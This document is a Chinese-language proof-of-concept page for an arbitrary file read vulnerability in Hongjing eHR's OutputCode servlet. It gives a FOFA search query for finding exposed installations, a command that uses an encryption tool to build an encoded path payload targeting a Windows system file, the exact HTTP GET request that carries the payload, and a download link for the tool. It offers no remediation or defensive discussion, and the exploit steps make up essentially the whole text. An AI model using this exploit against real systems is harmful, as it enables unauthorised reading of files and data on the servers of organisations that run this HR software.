


# 宏景 eHR-OutputCode 存在任意文件读取漏洞

## 资产搜索

fofa  `app="HJSOFT-HCM"`

## POC：

1. 生成payload（使用java8）

java -jar [HrmsTool.jar](file/HrmsTool.jar) -e c:/Windows/win.ini



2. 

```http
GET /servlet/OutputCode?path=MrEzLLE8pPjFvPfyPAATTP2HJFPAATTPTwqF7eJiXGeHU4B HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```



3. 加密工具地址：https://github.com/vaycore/HrmsTool/releases/tag/0.1
